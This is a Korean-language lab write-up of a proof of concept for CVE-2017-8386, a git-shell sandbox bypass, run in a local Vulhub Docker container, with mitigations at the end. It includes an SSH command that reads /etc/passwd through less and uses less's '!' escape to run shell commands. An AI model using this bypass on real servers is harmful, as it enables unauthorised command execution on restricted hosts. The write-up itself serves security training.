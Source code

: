 # CVE-2017-8386: git-shell Sandbox Bypass to RCE PoC

## 1. 개요
Git-shell은 SSH를 통해 제한된 git 명령만 허용하는 환경을 제공합니다. 하지만 특정 버전의 git-shell(2.12.2 등)에서는 `less` 명령어를 악용해 sandbox를 우회하고 시스템 명령어를 실행할 수 있는 취약점(CVE-2017-8386)이 존재합니다.

본 보고서는 해당 취약점에 대한 PoC를 진행하고 과정을 정리한 것입니다.

## 2. 환경 구축

### 2.1 사용 도구 및 버전
- Docker: 24.0.7
- Docker-Compose: v2.34.0
- Host OS: macOS
- Target OS: Ubuntu 16.04 (컨테이너 내부)
- Git Version: 2.12.2
- SSH Server

### 2.2 Vulhub 레포지토리 클론
`git clone https://github.com/phith0n/vulhub.git`


`cd vulhub/git/CVE-2017-8386/`
![Image1](https://github.com/user-attachments/assets/1f65fb3f-232e-4db4-b410-07f1a87f10a2)
### 2.3 docker-compose.yml 및 Dockerfile 구성
	• Ubuntu 16.04 베이스 이미지
	• Git 2.12.2 소스 설치
	• OpenSSH 서버 설치 및 실행
	• git-shell 환경 설정 (git 사용자 생성)

### 2.4 컨테이너 빌드 및 실행
`docker-compose build`


`docker-compose up -d`


`docker ps`


	• 컨테이너 실행 확인 (git-shell-cve-2017-8386)
![Image2](https://github.com/user-attachments/assets/ca0e76e1-ccea-4d71-b34e-055e9fd4a803)
### 2.5 SSH 키 등록 및 환경 설정
	1. 로컬에서 id_rsa.pub 생성 및 복사
	2. 컨테이너 내부 접속 및 git 사용자로 전환
	3. authorized_keys 등록
`docker exec -it git-shell-cve-2017-8386 /bin/bash`


`chsh -s /bin/bash git`


`su git`


`mkdir -p ~/.ssh`


`chmod 700 ~/.ssh`


`touch ~/.ssh/authorized_keys`


`chmod 600 ~/.ssh/authorized_keys`


`vim ~/.ssh/authorized_keys`

![Image3](https://github.com/user-attachments/assets/82ed4833-7d07-4b50-a6ec-fa663761ff16)
### 2.6 추가 패키지 설치
`apt update`


`apt install less -y`


`apt install man-db -y`


	• PoC 수행을 위해 less, man 패키지 설치 완료

## 3. PoC 과정

### 3.1 정상적인 SSH 접속
`ssh -p 3322 -i id_rsa -t git@127.0.0.1 "less /etc/passwd"`


• less 화면 진입 성공


• ! 명령어를 통해 시스템 명령어 실행 가능


### 3.2 명령어 실행 (sandbox 우회)
• !id -> 사용자 ID, 그룹 ID 출력
![first_execute.png](https://github.com/suz1n/WHS3_vulhub/blob/main/first_execute.png)


• !whoami -> 현재 사용자(git)


• !uname -a -> 시스템 커널 정보 출력


• !ls /home/git -> git 홈 디렉토리 파일 목록 출력


## 4. 취약점 분석
	• git-shell 환경에서는 사용자가 시스템 명령어를 실행할 수 없게 제한함.
	• 그러나 `git-upload-archive --help` 명령어를 통해 내부적으로 less 호출이 가능.
	• less 명령어는 ! 기능을 통해 시스템 쉘 명령 실행을 지원.
	• 결과적으로 git-shell sandbox를 우회하여 임의 명령어 실행이 가능함.

## 5. 대응 방안
	• 취약한 버전의 git-shell(2.12.2 등)을 사용하지 말고 최신 버전으로 업데이트
	• git-shell 명령어 허용 목록을 엄격히 관리
	• 필요시 less와 같은 명령어를 서버에서 제거 또는 제한 설정

## 6. GitHub 레포지토리 링크
https://github.com/suz1n/WHS3_vulhub
